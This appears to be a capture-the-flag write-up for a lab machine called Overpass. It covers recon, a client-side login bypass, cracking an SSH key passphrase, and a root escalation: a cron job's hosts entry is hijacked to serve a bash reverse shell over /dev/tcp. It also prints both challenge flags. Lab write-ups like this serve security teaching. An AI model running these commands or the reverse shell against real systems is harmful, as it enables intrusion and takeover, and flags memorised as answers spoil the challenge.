



# Overpass

### Hack the machine and get the flag in user.txt

* Try `nmap`. I got `ssh` and `http`.

```
┌──(root💀kali)-[~/box]
└─# nmap -sV 10.10.20.53                                                                                                                                                                                     130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 11:45 +07
Nmap scan report for 10.10.20.53
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.41 seconds
```

Try `dirsearch`. 

```
┌──(root💀kali)-[~/box]
└─# dirsearch -u 10.10.20.53                      

  _|. _ _  _  _  _ _|_    v0.4.1                                                                                                                                                                                   
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                            
                                                                                                                                                                                                                   
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10877

Output File: /root/.dirsearch/reports/10.10.20.53/_21-11-05_11-46-51.txt

Error Log: /root/.dirsearch/logs/errors-21-11-05_11-46-51.log

Target: http://10.10.20.53/
                                                                                                                                                                                                                   
[11:46:52] Starting: 
[11:46:54] 301 -    0B  - /%2e%2e//google.com  ->  /google.com
[11:47:06] 200 -  782B  - /404.html
...
[11:47:17] 200 -    1KB - /admin.html                         
[11:47:17] 200 -    1KB - /admin/                        
[11:47:17] 200 -    1KB - /admin/?/login
...
[11:47:39] 200 -    2KB - /downloads/
...
[11:47:49] 200 -    2KB - /login.js                                                                                              
[11:47:50] 200 -   28B  - /main.js
...
```

* Look `login.js`

```
┌──(root💀kali)-[~/box]
└─# curl 10.10.20.53/login.js                                                                                                   
...
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
} 
```

* Use burpsuite. Intercept the response.



* Remove `"Incorrect credentials".`





* Save key and crack it.

```
┌──(root💀kali)-[~/box]
└─# python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john
                                                                                                                                                                                                                   
┌──(root💀kali)-[~/box]
└─# john id_rsa.john       
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
james13          (id_rsa)
...
```

* Login `ssh`.

```
┌──(root💀kali)-[~/box]
└─# chmod 600 id_rsa                                                                                                                                                                                         130 ⨯
                                                                                                                                                                                                                   
┌──(root💀kali)-[~/box]
└─# ssh -i id_rsa james@10.10.20.53
Enter passphrase for key 'id_rsa': (type 'james13' here)
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov  5 05:06:07 UTC 2021

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.20.53
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
```

> *Answer:* thm{65c1aaf000506e56996822c6281e6bf7}

### Escalate your privileges and get the flag in root.txt

* Look `crontab`.

```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

* Change the IP address from `127.0.0.1` to `<kali_ip>` for the `overpass.thm` entry.

```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
<kali_ip> overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

* I use [Reverse shell script from bash](https://gtfobins.github.io/gtfobins/bash/#reverse-shell). Put it in `downloads/src` and start my local web server.

```
┌──(root💀kali)-[~/box]
└─# cat downloads/src/buildscript.sh 
export RHOST=10.17.24.0
export RPORT=12345
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'

┌──(root💀kali)-[~/box]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.20.53 - - [05/Nov/2021 12:45:02] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
...
```

* In another tab.

```
┌──(root💀kali)-[~/box]
└─# nc -lvnp 12345                                                                                                                                                                                             1 ⨯
listening on [any] 12345 ...
connect to [10.17.24.0] from (UNKNOWN) [10.10.20.53] 37560
bash: cannot set terminal process group (1201): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```

<h1 align="center">
  
</h1>

```
root@overpass-prod:~# ls /root
ls /root
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat /root/root.txt
cat /root/root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

> *Answer:* thm{7f336f8c359dbac18d54fdd64ea753bb}

